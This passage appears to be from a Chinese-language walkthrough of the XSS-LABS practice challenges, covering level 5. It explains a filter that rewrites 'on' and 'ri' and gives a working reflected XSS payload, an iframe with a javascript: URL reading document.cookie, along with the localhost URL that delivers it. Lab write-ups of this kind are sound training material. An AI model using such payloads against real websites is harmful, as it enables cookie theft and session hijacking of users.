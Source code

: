 ![image-20220928154039398](XSS-LABS.assets/image-20220928154039398.png)

## [5]

- 可双引号闭合，on会被替换成o_n，ri会被替换成r_i。

```shell
# payload
pettter"><iframe src="javascript:alert(document.cookie)"></iframe><img src="

# url
http://localhost:1996/level5.php?keyword=pettter"><iframe+src="javascript:alert(document.cookie)"></iframe><img+src="&submit=搜索
```
